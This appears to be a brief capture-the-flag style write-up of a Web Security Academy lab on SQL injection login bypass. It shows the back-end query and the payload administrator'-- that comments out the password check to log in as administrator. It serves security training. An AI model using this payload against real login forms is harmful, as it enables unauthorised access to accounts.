 # Lab: SQL injection vulnerability allowing login bypass

- sqli: login function
- end goal: use sqli attack and login as administrator user

### Analysis

- URL: `https://0a0e00f304b6997c8134bbb900430058.web-security-academy.net`

- go to login page: `https://0a0e00f304b6997c8134bbb900430058.web-security-academy.net/login`

- back-end:
```sql
select firstname from users where username='administrator' and password='anything'

select firstname from users where username='administrator'' and password='anything'
'-- add single quote follow username is send back 'internal server error'

select firstname from users where username='administrator'--' and password='anything'
-- database interest only username but don't care password 
```

---
